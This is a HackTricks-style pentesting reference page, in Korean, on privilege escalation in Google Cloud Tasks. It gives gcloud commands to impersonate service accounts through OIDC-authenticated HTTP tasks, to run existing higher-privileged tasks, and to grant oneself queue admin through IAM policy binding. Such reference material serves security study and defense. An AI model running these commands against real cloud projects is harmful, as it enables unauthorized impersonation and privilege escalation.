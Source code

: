# GCP - Cloud Tasks Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

이 권한을 가진 공격자는 **다른 서비스 계정을 가장할 수 있습니다**. 이는 지정된 서비스 계정의 신원으로 실행되는 작업을 생성함으로써 가능합니다. 이를 통해 **IAM으로 보호된 Cloud Run 또는 Cloud Functions** 서비스에 **인증된 HTTP 요청을 보낼 수 있습니다**.
```bash
gcloud tasks create-http-task \
task-$(date '+%Y%m%d%H%M%S') \
--location us-central1 \
--queue <queue_name> \
--url 'https://<service_name>.us-central1.run.app' \
--method POST \
--header 'X-Hello: world' \
--body-content '{"hello":"world"}' \
--oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```
### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

이 권한을 가진 공격자는 **기존의 예약된 작업을 실행**할 수 있으며, 작업과 연결된 서비스 계정에 대한 권한이 필요하지 않습니다. 이는 이전에 더 높은 권한을 가진 서비스 계정으로 생성된 작업을 실행할 수 있게 해줍니다.
```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```
이 명령을 실행하는 주체는 **작업의 서비스 계정에 대한 `iam.serviceAccounts.actAs` 권한이 필요하지 않습니다**. 그러나 이는 기존 작업을 실행할 수만 있으며, 작업을 생성하거나 수정할 수 있는 권한은 부여하지 않습니다.

### `cloudtasks.queues.setIamPolicy`

이 권한을 가진 공격자는 **특정 큐에서 자신이나 다른 주체에게 Cloud Tasks 역할을 부여할 수 있습니다**, 이는 `roles/cloudtasks.admin`로 상승할 수 있으며, 여기에는 작업을 생성하고 실행할 수 있는 능력이 포함됩니다.
```bash
gcloud tasks queues add-iam-policy-binding \
<queue_name> \
--location us-central1 \
--member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
--role roles/cloudtasks.admin
```
이것은 공격자가 자신이 제어하는 서비스 계정에 대해 큐에 대한 전체 Cloud Tasks 관리자 권한을 부여할 수 있게 합니다.

## References

- [Google Cloud Tasks Documentation](https://cloud.google.com/tasks/docs)

{{#include ../../../banners/hacktricks-training.md}}
